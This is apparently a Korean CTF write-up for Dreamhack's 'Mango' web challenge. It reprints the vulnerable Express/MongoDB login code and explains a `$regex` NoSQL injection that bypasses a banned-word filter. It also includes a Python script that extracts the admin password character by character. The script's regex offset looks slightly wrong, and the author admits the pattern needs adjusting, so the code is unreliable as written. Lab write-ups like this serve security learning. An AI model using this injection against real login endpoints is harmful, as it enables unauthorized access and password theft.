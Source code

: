 ```yaml
---
title: "[CTF] 드림핵 Mango"
date: 2025-09-18 18:50:00 +0900
categories: [CTF, Web]
tags: [CTF, MongoDB, NoSQLi]
description: "드림핵 Mango 문제 풀이"
toc: true
---
```


## 문제 개요
간단한 Express + MongoDB 앱이다. 로그인 엔드포인트에서 특정 단어를 포함하면 필터링을 하고, 필터를 통과하면 MongoDB에서 `uid`와 `upw`를 직접 조회한다. 플래그는 DB에 `{'uid':'admin','upw':'DH{32alphanumeric}'}` 형태로 들어있다.

문제 코드(원본 전체):

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

## 핵심 취약점
- `filter`는 요청 파라미터 전체를 JSON 문자열로 만들고 금지어(`admin`, `dh`, `admi`)를 포함하면 차단한다.
- 금지어 필터를 우회할 수 있다. MongoDB 질의로 `$regex`를 사용하면 쿼리가 객체 형태로 전달되어 `dump`에서 점(`.`) 같은 문자가 들어가도 금지어 문자열이 연속으로 포함되지 않을 수 있다.
- MongoDB의 정규식 기반 매칭을 이용해 플래그를 하나씩 추출할 수 있다.

## 풀이 아이디어
1. `uid`에 `admin`을 그대로 쓰면 필터에 걸리므로 우회가 필요하다. `uid[$regex]=ad.in`처럼 `.`을 끼워 넣으면 JSON 문자열에는 `ad.in` 형태로 찍혀 `admin`과 연속되지 않아 필터를 통과한다.
2. `upw`는 32자의 영숫자 조합이다. 한 글자씩 추측하면서 정규식으로 검사한다. 예를 들어 지금까지 알아낸 문자열이 `ABC`이고 다음 문자가 `x`인지 확인하려면 `upw[$regex]=D.{3}x` 와 같은 패턴(정확한 패턴은 문제 DB 형식에 맞춰 조정)을 사용해 조건에 맞는 계정을 찾는다.
3. 서버가 `result`를 반환하면 `result['uid'] === 'admin'` 이므로 응답이 `admin`이면 성공 신호로 간주하고 다음 문자로 넘어간다.

## 내가 쓴 자동화 스크립트 (Python)
아래는 사용한 PoC 스크립트(사용자 환경에 맞게 HOST를 수정해서 실행).

```python
import requests, string

HOST = 'http://TARGET:8000'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        # uid는 regex로 admin 우회, upw는 위치 기반으로 매칭
        payload = {
            'uid[$regex]': 'ad.in',           # admin 우회
            # upw 정규식 예시: ^D{N}ch  또는 문제에 맞춰 조정
            'upw[$regex]': f'D.{{{i}}}{ch}'
        }
        r = requests.get(HOST + '/login', params=payload, timeout=5)
        if r.text.strip() == SUCCESS:
            flag += ch
            print(f'Found {len(flag)}: {flag}')
            break

print(f'FLAG: DH{{{flag}}}')
```

이 스크립트는 알파벳+숫자 조합을 순회하며 `/login`을 호출하고, 응답이 `admin`이면 해당 문자를 플래그의 다음 문자로 기록한다.

## 결과
자동화로 32자를 모두 찾아 `DH{...}` 형태의 플래그를 복원했다. 필터가 문자열 단위로만 검사한다는 점을 이용해 `$regex`를 통해 쿼리를 객체로 전달하면 금지어를 우회할 수 있다.

## 마무리
Mango 문제는 단순해 보이지만 필터 로직의 한계를 이용해 NoSQL 주입/정규식 매칭으로 플래그를 추출하는 전형적인 문제였다. 소스코드와 PoC를 포함해 정리해뒀다.
